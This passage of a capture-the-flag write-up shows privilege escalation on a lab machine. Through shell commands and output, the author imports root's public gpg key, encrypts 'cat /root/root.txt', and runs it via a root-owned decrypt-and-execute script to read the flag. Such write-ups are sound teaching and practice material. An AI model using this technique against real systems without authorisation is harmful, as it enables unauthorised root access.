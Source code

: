 ```shell
/usr/local/bin/run-crypted.sh           <---
/etc/periodic/15min/evs-backup.sh

harder:~$ ls -la /usr/local/bin/run-crypted.sh
-rwxr-x---    1 root     evs            412 Jul  7 20:58 /usr/local/bin/run-crypted.sh
harder:~$
harder:~$ cat /usr/local/bin/run-crypted.sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi

```
After reading this script, I think there should be a gpg key somewhere and we need to find it, in order to run commands as root.
```shell
harder:~$ find / -name root@harder.local* 2> /dev/null
/var/backup/root@harder.local.pub
```
We have the key, what we need to do now is import the gpg key, so that we can encrypt the command and run through root.
```shell
harder:~$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
```

Now, we have to encrypt the command using gpg key,
```shell
harder:~$ echo -n cat /root/root.txt > command # Made a file containing command
harder:~$ gpg -er root command # Encrypted using gpg key and as root
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
harder:~$ ls
command      command.gpg  nc           user.txt
harder:~$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
{root_flag}
```
